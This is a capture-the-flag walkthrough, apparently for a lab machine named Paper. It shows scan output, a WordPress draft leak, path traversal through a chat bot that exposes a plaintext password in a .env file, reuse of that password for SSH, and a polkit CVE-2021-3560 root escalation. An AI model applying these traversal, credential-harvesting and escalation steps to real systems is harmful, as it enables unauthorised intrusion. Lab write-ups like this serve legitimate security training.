

# Paper

- Target Machine: 10.10.11.143

## Enumeration

### Nmap scan
```log
Nmap scan report for 10.10.11.143
Host is up (0.044s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
```

### Nikto scan

```log
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.11.143
+ Target Hostname:    10.10.11.143
+ Target Port:        80
+ Start Time:         2022-02-19 15:59:16 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
+ Server leaks inodes via ETags, header found with file /, fields: 0x30c0b 0x5c5c7fdeec240
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'x-backend-server' found, with contents: office.paper
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/7.2.24
+ Allowed HTTP Methods: HEAD, GET, POST, OPTIONS, TRACE
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
```

## Foothold

In the Nikto scan, we can see the odd header x-backend-server with the hoste `office.paper`. After adding it to the `/etc/hosts` file, we can check the website.

After running WP-Scan, we find out that this WP version is vulnerable

```log
[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
 |  - X-Powered-By: PHP/7.2.24
 |  - X-Backend-Server: office.paper
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://office.paper/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 5.2.3 identified (Insecure, released on 2019-09-05).
 | Found By: Rss Generator (Passive Detection)
 |  - http://office.paper/index.php/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
 |  - http://office.paper/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
 ```

 After a quick search, we find out [this vulnerability](https://www.exploit-db.com/exploits/47690), which leaks this hidden content:


```log
test

Micheal please remove the secret from drafts for gods sake!

Hello employees of Blunder Tiffin,

Due to the orders from higher officials, every employee who were added to this blog is removed and they are migrated to our new chat system.

So, I kindly request you all to take your discussions from the public blog to a more private chat system.

-Nick

# Warning for Michael

Michael, you have to stop putting secrets in the drafts. It is a huge security issue and you have to stop doing it. -Nick

Threat Level Midnight

A MOTION PICTURE SCREENPLAY,
WRITTEN AND DIRECTED BY
MICHAEL SCOTT

[INT:DAY]

Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….

# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.

# Also, stop looking at my drafts. Jeez!
```

After adding `chat.office.paper` to the `etc/hosts` file, we can check out the found link.

----------

## Getting a shell through SSH

After exploring the RocketChat service, we find out that there'a bot named `recyclops` hosted on Dwight's machine. This bot can be used by sending commands throught the private RocketChat. In particular, this bot has access to the `cat` and `ls` commands, giving us the ability to explore Dwight's home directory.



After exploring a bit, we find out that the statement _"For security reasons, the access is limited to the Sales folder."_ is indeed wrong: we can access every directory through the use of **relative paths**. For example, we can access the file `../hubot/.env`, containing the secret leaked by `prisonermike`.

This is the full log of the chat:

```log
[ME] recyclops list .

[RECYCLOPS]
Fetching the directory listing of .
total 0
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 .
drwx------ 11 dwight dwight 281 Feb 6 08:03 ..
drwxr-xr-x 2 dwight dwight 27 Sep 15 13:03 sale
drwxr-xr-x 2 dwight dwight 27 Jul 3 2021 sale_2
5:52 PM

[ME] recyclops list ..

[RECYCLOPS]
Fetching the directory listing of ..
total 32
drwx------ 11 dwight dwight 281 Feb 6 08:03 .
drwxr-xr-x. 3 root root 20 Jan 14 06:50 ..
lrwxrwxrwx 1 dwight dwight 9 Jul 3 2021 .bash_history -> /dev/null
-rw-r--r-- 1 dwight dwight 18 May 10 2019 .bash_logout
-rw-r--r-- 1 dwight dwight 141 May 10 2019 .bash_profile
-rw-r--r-- 1 dwight dwight 358 Jul 3 2021 .bashrc
-rwxr-xr-x 1 dwight dwight 1174 Sep 16 06:58 bot_restart.sh
drwx------ 5 dwight dwight 56 Jul 3 2021 .config
-rw------- 1 dwight dwight 16 Jul 3 2021 .esd_auth
drwx------ 2 dwight dwight 44 Jul 3 2021 .gnupg
drwx------ 8 dwight dwight 4096 Sep 16 07:57 hubot
-rw-rw-r-- 1 dwight dwight 18 Sep 16 07:24 .hubot_history
drwx------ 3 dwight dwight 19 Jul 3 2021 .local
drwxr-xr-x 4 dwight dwight 39 Jul 3 2021 .mozilla
drwxrwxr-x 5 dwight dwight 83 Jul 3 2021 .npm
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 sales
drwx------ 2 dwight dwight 6 Sep 16 08:56 .ssh
-r-------- 1 dwight dwight 33 Feb 19 11:48 user.txt
drwxr-xr-x 2 dwight dwight 24 Sep 16 07:09 .vim

[ME] recyclops list ../hubot

[RECYCLOPS]
Fetching the directory listing of ../hubot
total 168
drwx------ 8 dwight dwight 4096 Sep 16 07:57 .
drwx------ 11 dwight dwight 281 Feb 6 08:03 ..
-rw-r--r-- 1 dwight dwight 0 Jul 3 2021 \
srwxr-xr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8000
srwxrwxr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8080
drwx--x--x 2 dwight dwight 36 Sep 16 07:34 bin
-rw-r--r-- 1 dwight dwight 258 Sep 16 07:57 .env
-rwxr-xr-x 1 dwight dwight 2 Jul 3 2021 external-scripts.json
drwx------ 8 dwight dwight 163 Jul 3 2021 .git
-rw-r--r-- 1 dwight dwight 917 Jul 3 2021 .gitignore
-rw-r--r-- 1 dwight dwight 50945 Feb 19 11:52 .hubot.log
-rwxr-xr-x 1 dwight dwight 1068 Jul 3 2021 LICENSE
drwxr-xr-x 89 dwight dwight 4096 Jul 3 2021 node_modules
drwx--x--x 115 dwight dwight 4096 Jul 3 2021 node_modules_bak
-rwxr-xr-x 1 dwight dwight 1062 Sep 16 07:34 package.json
-rwxr-xr-x 1 dwight dwight 972 Sep 16 07:26 package.json.bak
-rwxr-xr-x 1 dwight dwight 30382 Jul 3 2021 package-lock.json
-rwxr-xr-x 1 dwight dwight 14 Jul 3 2021 Procfile
-rwxr-xr-x 1 dwight dwight 5044 Jul 3 2021 README.md
drwx--x--x 2 dwight dwight 193 Jan 13 10:56 scripts
-rwxr-xr-x 1 dwight dwight 100 Jul 3 2021 start_bot.sh
drwx------ 2 dwight dwight 25 Jul 3 2021 .vscode
-rwxr-xr-x 1 dwight dwight 29951 Jul 3 2021 yarn.lock

[ME] recyclops file ../hubot/.env

[RECYCLOPS]
<!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```

Since we know that this bot was made by Dwight, we can try accessing the machine through SSH using `dwight@paper` and the password `Queenofblad3s!23` that we just found, which indeed works!

----------

## Priviledge escalation

After running `linpeas.sh`, we find out that this machine is vulnerable to [CVE-2021-3560](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/). We can run a [script](https://www.exploit-db.com/exploits/50011) given as PoC to this CVE to create a temporary user, access it with `su - hacked` using the password `password` and then spawn a root shell using `sudo su`.